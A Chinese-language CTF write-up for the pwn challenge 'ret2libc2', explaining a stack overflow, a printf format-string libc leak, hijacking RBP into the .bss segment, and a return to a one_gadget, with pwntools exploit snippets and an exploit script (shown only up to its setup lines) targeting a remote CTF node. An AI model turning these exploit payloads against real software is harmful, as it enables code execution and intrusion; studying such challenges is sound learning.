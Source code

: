 ## ret2libc2
![](/images/2d7717bfc0d532d9727f6a773c98ce1e.png)

没有 canary 和 PIE

![](/images/695856f4114be2d5e90ca4b2d35a44bd.png)

一上来直接就给了栈溢出，溢出了 0x28 个字节

题目还给了 ld 文件和 libc 文件，可以用 one_gadget

![](/images/067f1d804300e303527ae4db5fc29623.png)

发现在 read 之后把读取的内容指针存到 rax 当中，而上面的 printf 也是将 rax 中的指针当作内容输出

所以可以用 read 劫持返回地址之后跳回 printf 函数将栈上的 libc 地址泄露出来，然后就会再回到 read 函数

### 重点：控制`RBP`
之前做的 ret2libc 类型的题目没遇到要求控制 rbp 的，这次第一次遇见，

在跳回 printf 之后因为 read 是按照 rbp 偏移向栈上读入的，直接用`b'a'`一路覆盖到返回地址把 rbp 给搞非法了

到了调用 read 的时候直接 EOF 了...

```python
printf=0x401227
payload=b'%7$p\n' #加了个换行符方便后面recvline
payload=payload.ljust(0x30,b'a')
payload+=p64(bss)+p64(printf) #把rbp劫持到了bss段
link.recvuntil(b'magic')
link.send(payload)
```

接着是接收 libc 地址，好久没试过接收 printf 泄露出来的地址了

```python
link.recvline()
libc_addr=int(link.recvline()[:14],16)
print(hex(libc_addr))
libc_base=libc_addr-0x029d90
print(hex(libc_base))
```

动调时候发现最后栈溢出修改返回地址到 one_gadget 时也要控制 rbp，不然因为 rbp 非法没办法执行 push

```python
payload=b'a'*0x30+p64(bss)+p64(libc_base+ogg[6])
link.recvuntil(b'magic')
link.send(payload)
```

exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
# link=process("./ret2libc2")
link=remote("node2.anna.nssctf.cn",28479)
elf=ELF("./ret2libc2")
libc=ELF("./libc.so.6")

ogg=[0xebc81,0xebc85,0xebc88,0xebce2,0xebd38,0xebd3f,0xebd43]
bss=0x404060+0x140
ret=0x40101a
leave_ret=0x401272
```